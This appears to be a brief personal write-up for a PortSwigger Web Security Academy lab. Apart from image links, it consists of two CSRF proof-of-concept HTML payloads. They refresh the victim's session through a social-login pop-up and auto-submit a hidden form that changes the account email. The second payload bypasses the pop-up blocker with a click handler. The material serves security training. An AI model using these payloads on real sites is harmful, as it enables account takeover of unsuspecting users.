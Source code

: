 ![[Pasted image 20250204211358.png]]
![[Pasted image 20250204211408.png]]![[Pasted image 20250204211420.png]]
![[Pasted image 20250204211432.png]]


< form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@web-security-academy.net"> </form >
< script> window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); function changeEmail(){ document.forms[0].submit(); } </script >
![[Pasted image 20250204211637.png]]

Bypassing pop up blocker
< form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@portswigger.net"> </form > 
< p>Click anywhere on the page</p> 
<script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } 
</script>